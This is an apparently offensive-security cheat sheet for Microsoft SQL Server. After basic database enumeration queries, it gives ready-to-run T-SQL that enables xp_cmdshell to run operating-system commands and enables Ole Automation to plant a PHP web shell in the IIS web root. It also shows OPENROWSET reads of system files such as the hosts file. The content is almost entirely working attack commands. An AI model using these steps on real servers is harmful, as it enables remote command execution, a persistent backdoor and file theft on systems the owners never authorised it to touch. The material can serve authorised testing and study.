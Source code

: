 -- -
General commands you can use to enumerate the database and interact with it. References the [Microsoft Docs](https://learn.microsoft.com/en-us/sql/t-sql/statements/statements?view=sql-server-ver15) to move around. 
### Query DB
```mysql
# you need to first input the query, then execute a go command to actually run the query. go command must be in all lowercase.

# show databases
SELECT name FROM master.dbo.sysdatabases
go

# Select a database
USE <db> 
go

# Show tables
SELECT table_name FROM <db>.INFORMATION_SCHEMA.TABLES
go

# select data from table 
SELECT * FROM <table>
go
```
### Command Execution
```mysql
xp_cmdshell '<cmd>'
go

xp_cmdshell 'whoami'
go

# xp_cmdshell is not enabled by default, so we can enable it as follows:
# allow advanced options to be changed
EXECUTE sp_configure 'show advanced options', 1
go

# update the currently configured balue for advanced options
RECONFIGURE
go

# enable xp_cmdshell
EXECUTE sp_configure 'xp_cmdshell', 1
go

# update current configured value for this feature
RECONFIGURE
go
```
### Create a File
#### Enable Ole Automation Procedures
This setting will need to be enabled to write a file to the system
```mysql
sp_configure 'show advanced options', 1
go
RECONFIGURE
go
sp_configure 'Ole Automation Procedures', 1
go
RECONFIGURE
go
```
#### Create the file
```mysql
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
go
```
### Read File
Given the appropriate permissions:
```mysql
SELECT * FROM OPENROWSET(BULK N'<path>', SINGLE_CLOB) AS Contents
go

SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
go
```
